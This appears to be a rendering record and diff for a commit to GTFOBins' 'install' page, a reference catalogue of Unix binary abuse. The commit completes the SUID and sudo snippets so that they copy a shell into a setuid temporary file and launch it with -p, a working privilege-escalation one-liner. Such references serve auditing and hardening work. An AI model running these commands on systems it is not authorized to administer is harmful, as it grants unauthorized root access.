

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/install.md, in a window 1280 px wide. Shown: the part 331-732 px from the top of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Added missing shell file

```diff
--- a/_gtfobins/install.md
+++ b/_gtfobins/install.md
@@ -3,11 +3,11 @@ functions:
   suid:
     - code: |
         TF=$(mktemp)
-        install -m 4755 $TF
+        install -m 4755 `which sh` $TF
         $TF -p
   sudo:
     - code: |
         TF=$(mktemp)
-        sudo install -m 4755 $TF
+        sudo install -m 4755 `which sh` $TF
         $TF -p
 ---
```
